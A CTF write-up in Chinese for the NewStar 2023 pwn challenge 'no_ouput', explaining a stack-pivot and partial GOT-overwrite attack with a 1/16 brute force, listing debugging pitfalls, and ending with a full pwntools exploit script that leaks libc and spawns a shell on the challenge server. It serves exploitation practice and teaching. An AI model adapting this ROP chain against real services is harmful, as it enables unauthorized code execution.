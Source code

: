 ```yaml
---
title: newstar2023 week5 - no ouput
date: 2023/10/23 12:00:00
tags:
    - stack pivot
    - 1/16 possibility
---
```


~~肯定是把output的t漏了~~

## 文件分析

下载`no_ouput`, NX on, PIE off, Canary off, RELRO full  
ghidra分析为64位程序

## 解题思路

没有输出函数，但是csu_init在，可以轻松控制寄存器，那么因为 read
函数离 write 函数很近，可以由此打印出read@got拿到libcBase，然后就能调
`system("/bin/sh")`

那么首先修改.bss上的read为write，栈迁移执行，然后再次栈迁移，在栈上放置
`system("/bin/sh")`  
要注意的是，由于write比read高不少，超过了0xFF，又已知ASLR不会改变末12位，
而改是一个字节一个字节改的，因此`read & 0xF000`这4位是赌的，每次有1/16的概率能中，
并不是执行脚本就能一次打下来的

## 踩过的坑

1. write函数是对系统调用的封装，因此开栈不大，可以放心迁移
2. system执行的参数在这题只能是libc里的shstr，在.bss上捏的就不行，
网上也搜不到结果，请懂的师傅发个discussion
3. read会读取字符直到换行符（前提是读取的字节不够），sleep再久也没用（recv可以打断输入，
这时可以不用换行符）
4. 网上写可以用`elf.search(str).next()`，实际上不行，库里只有__next__()魔法方法，
因此需要用next包裹，如`next(elf.search(str))`
5. 看准时间提交...虽然比赛是周日晚9点更新题目，但是结束是在早上9点...
做出来了没提交上:(

## EXPLOIT

```python
from pwn import *

def payload(lo):
    global sh
    if lo:
        sh = process('no_ouput')
        gdb.attach(sh, 'b system')
        libc = ELF('/usr/lib/libc.so.6')
    else:
        sh = remote('node4.buuoj.cn', 29390)
        libc = ELF('libc-2.31.so')
    elf = ELF('no_ouput')
    popRdi = 0x401253
    popRsiR15 = 0x401251
    readPlt = elf.plt['read']
    readGot = elf.got['read']
    readBss = 0x404050
    bssHigh = 0x404800
    leaveRet = 0x4011ea

    # payload 1, pivot stack to readBss and read in shstr, stack pivot instruction & patch from read to write
    sh.sendline(b'0'*112 + p64(readBss - 0x30) + p64(popRsiR15) + p64(bssHigh - 16) + p64(0) + p64(readPlt) +
        p64(popRsiR15) + p64(readBss + 8) + p64(0) + p64(readPlt) +
        p64(popRsiR15) + p64(readBss - 0x30) + p64(0) + p64(readPlt) + p64(leaveRet))
    print('p1 send')
    if lo & 0b10:
        sleep(5) # wait for gdb to make manual debug easier
    else:
        sleep(0.5)

    # payload 2, make "/bin/sh" on .bss
    sh.sendline(b'/bin/sh'.ljust(16, b'\0') + p64(popRdi) + p64(0) + p64(popRsiR15) + p64(bssHigh + 0x30) + p64(0) + p64(readPlt))
    print('p4 send')
    sleep(0.5)

    # payload 3, stack pivot instruction, after this procedure, rip = bssHigh
    sh.sendline(p64(leaveRet))
    print('p3 send')
    sleep(0.5)
    
    # payload 4, patch read, if 0b10 digit debug on, read real readAddr from user
    if lo & 0b10:
        patch = p16(int(input('read addr:'), 16) - 0x520 + 0x1020)
    elif lo:
        patch = p16(0x8020)
    else:
        patch = p16(0x3060)
    sh.send(p64(bssHigh - 8) + p64(popRdi) + p64(1) + p64(popRsiR15) + p64(readGot) + p64(0) + patch)
    print('p2 send')
    sleep(0.5)

    try:
        libcBase = u64(sh.recv(6) + b'\0\0') - libc.symbols['read']
        sh.recv() # skip remaining chars from write() above
        system = libcBase + libc.symbols['system']
        shstr = libcBase + next(libc.search(b'/bin/sh')) # in python 3, use next() magic func like this

        # payload 5, write systemAddr on .bss
        # sh.sendline(p64(popRdi) + p64(bssHigh - 16) + p64(system)) # shstr on .bss can't open shell!
        sh.sendline(p64(popRdi) + p64(shstr) + p64(system))
        print('p5 send')
        sh.interactive()
        sh.close()
        return 0
    except EOFError:
        # in this case, patch is incorrect, leading to SIGSEGV
        print('addr not match')
        sh.close()
        return 1

while payload(0):
    pass
```

Done.
